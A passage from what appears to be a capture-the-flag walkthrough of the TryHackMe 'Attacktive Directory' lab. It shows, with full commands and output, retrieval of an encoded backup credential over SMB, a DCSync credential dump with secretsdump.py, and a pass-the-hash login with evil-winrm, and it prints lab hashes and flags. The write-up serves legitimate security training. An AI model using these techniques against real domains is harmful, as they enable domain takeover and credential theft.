Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr  5 02:08:39 2020
  ..                                  D        0  Sun Apr  5 02:08:39 2020
  backup_credentials.txt              A       48  Sun Apr  5 02:08:53 2020

                8247551 blocks of size 4096. 3803564 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit

┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ cat backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ cat backup_credentials.txt | base64 -d
backup@spookysec.local:backup2517860
```

The file contains a Base64-encoded string. Decoding it immediately reveals a second set of credentials: `backup@spookysec.local` with password `backup2517860`. This account name is significant: the `backup` account in domain environments is frequently granted the `Replicating Directory Changes` and `Replicating Directory Changes All` rights, permissions that enable DCSync attacks.



---

## DCSync: Full Domain Credential Dump

The `backup` account's elevated replication privileges allow it to impersonate a domain controller and request credential replication via the DRSUAPI protocol. Impacket's `secretsdump.py` automates this process, fetching the complete contents of the NTDS.DIT database — every user's NT hash, LM hash, and Kerberos keys — without ever touching the target's filesystem.

**Step 9.** Execute the DCSync attack using the `backup` account credentials:

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ python3 ./impacket/examples/secretsdump.py $host/backup:backup2517860@$ip
Impacket v0.14.0.dev0+20260306.165346.8c155a5b - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:e58e382531b0b3ef2ed8902ec5dcdcf6:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:78ab728d95529c13896b90d38286c6c2a69b947214a89edddae815fb0f687d30
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:656fe2ea31171f6b3584e8f882648fe9
ATTACKTIVEDIREC$:des-cbc-md5:540d20409d38b38f
[*] Cleaning up...
```

The entire domain credential store has been exfiltrated. The Administrator's NT hash is `0e0363213e37b94221497260b0bcb4fc`. Because Windows NTLM authentication does not require the plaintext password, this hash alone is sufficient to authenticate as the Domain Administrator.



---

## Pass-the-Hash and Flag Retrieval

The final step leverages the Administrator's NT hash directly against the WinRM service (port 5985) using `evil-winrm`. This technique, Pass-the-Hash, authenticates using the raw NTLM hash as a credential, bypassing any need to crack the password. The resulting session runs as `NT AUTHORITY\SYSTEM` in the context of the built-in Administrator account.

**Step 10.** Authenticate via WinRM using the Administrator's NTLM hash and collect all flags:

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ evil-winrm -i $ip -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v3.7
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\svc-admin\Desktop\user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\backup\Desktop\PrivEsc.txt
TryHackMe{B4ckM3UpSc0tty!}
```

All three flags are retrieved from the shell. The domain is fully compromised.



---

## Attack Chain Summary

1. **Reconnaissance:** `enum4linux` and `nmap` mapped the domain controller at `10.48.132.176`, revealing the domain name `spookysec.local`, the NetBIOS name `THM-AD`, and a full Active Directory service profile including Kerberos (88), LDAP (389), SMB (445), RDP (3389), and WinRM (5985).

2. **Vulnerability Discovery:** `kerbrute userenum` performed silent Kerberos-based username enumeration, confirming eleven valid domain accounts. The `svc-admin` account was identified as having Kerberos pre-authentication disabled, making it vulnerable to AS-REP Roasting.

3. **Exploitation:** Impacket's `GetNPUsers.py` captured the AS-REP ticket for `svc-admin` without credentials. The extracted `krb5asrep` hash (mode 18200) was cracked offline with `john` in under a second, yielding the credential `svc-admin : management2005`.

4. **Internal Enumeration:** Authenticated SMB access with `svc-admin` exposed a non-standard `backup` share containing `backup_credentials.txt`. The file held a Base64-encoded string that decoded to `backup@spookysec.local:backup2517860`, a second account holding domain replication rights.

5. **Privilege Escalation:** The `backup` account's `Replicating Directory Changes` privilege was exploited via a DCSync attack using Impacket's `secretsdump.py`, dumping all domain NT hashes. The Administrator's hash (`0e0363213e37b94221497260b0bcb4fc`) was used in a Pass-the-Hash attack with `evil-winrm` to gain a full interactive session on the Domain Controller and retrieve all flags.
